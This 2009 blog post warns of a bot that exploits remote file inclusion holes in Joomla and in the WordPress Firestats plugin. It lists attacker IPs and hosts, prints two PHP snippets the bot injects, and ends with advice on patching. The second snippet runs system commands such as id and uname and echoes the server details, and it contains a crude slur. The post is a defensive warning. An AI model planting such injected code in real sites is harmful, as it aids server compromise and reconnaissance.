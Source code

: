 ```yaml
---
title: New threat for all Joomla and WordPress installations
author: Alex
layout: post
permalink: /blog/2009/09/24/feelcomz-rfi/
categories:
  - Security
tags:
  - ajax
  - chat
  - class
  - control
  - handler
  - javascript
  - php
  - remote
  - upload
---
```

# 

There is a new BOT out there, and one of the bad ones. I have started receiving traffic from it in my servers over the past week, and after some investigation it turns out it is quite a powerful bot, and so simple to use even a kid with a computer could use it.

The bot attacks mainly Joomla and WordPress installations, the [Firestats plugin][1] for WordPress version 1.6.2 has [a known vulnerability][2] that is exploited by this bot.

 [1]: http://firestats.cc/wiki/Download
 [2]: http://www.milw0rm.com/exploits/8945

If successful, the bot will usually get your admin password and send it to a server somewhere, other versions f** your server up… it depends.

The bot is basically a top All-In-One product, that acts as a:

*   RFI Scanner
*   RFI Scan & Exploit
*   Joomla RFI Scan & Exploit
*   Milw0rm Search
*   Google bypass
*   Message Spy & Save
*   Auto Spreading

The last known spreader for the bot is the Fx29Spreadz v1.0 (Apr. 2009) which can be used from a server with a PHP Shell.

## IPs and servers:

This bot has used the following IPs and hosts (That I know of)

*   62.15.230.250
*   210.68.188.206
*   211.239.150.144
*   125.251.133.3
*   250.230.15.62.static.jazztel.es
*   buminch.org
*   www.framoss.ru

It has compromised servers in Republic of Korea, Taiwan and some other countries.

## Injections:

The bot basically tries to insert the following PHP line:

    < ?php /* Fx29ID */ echo("FeeL"."CoMz"); die("FeeL"."CoMz"); /* Fx29ID */ ?>
    

Although there is another variation which inserts:

    < ?php
        function ConvertBytes($number) {
        $len = strlen($number);
        if($len < 4) {
        return sprintf(”%d b”, $number); }
        if($len >= 4 &#038;&#038; $len < =6) {
        return sprintf(”%0.2f Kb”, $number/1024); }
        if($len >= 7 &#038;&#038; $len < =9) {
        return sprintf(”%0.2f Mb”, $number/1024/1024); }
        return sprintf(”%0.2f Gb”, $number/1024/1024/1024); }
    
        echo “Osirys  
    ”;
        $un = @php_uname();
        $id1 = system(id);
        $pwd1 = @getcwd();
        $free1= diskfreespace($pwd1);
        $free = ConvertBytes(diskfreespace($pwd1));
        if (!$free) {$free = 0;}
        $all1= disk_total_space($pwd1);
        $all = ConvertBytes(disk_total_space($pwd1));
        if (!$all) {$all = 0;}
        $used = ConvertBytes($all1-$free1);
        $os = @PHP_OS;
    
        echo “0sirys was here and also is a fucking gay..  
    ”;
        echo “uname -a: $un  
    ”;
        echo “os: $os  
    ”;
        echo “id: $id1  
    ”;
        echo “free: $free  
    ”;
        echo “used: $used  
    ”;
        echo “total: $all  
    ”;
        exit;
    

## Security recommendations:

If your website runs on WordPress, Joomla, Drupal, or other popular CMS you must upgrade all plugins and check for the latest version of the system!  
If you have Firestats I recommend deactivating it for some time, until a new version fixing that bug is released, and still, I would wait.  
If you have URL rewriting systems, ensure they are up-to-date, and if you built them re-check the security, and never include external files.

### Hope this helped you ![:)][3] 

 [3]: http://urbanoalvarez.es/blog/wp-includes/images/smilies/icon_smile.gif

If you found any variations and new stuff about this please comment below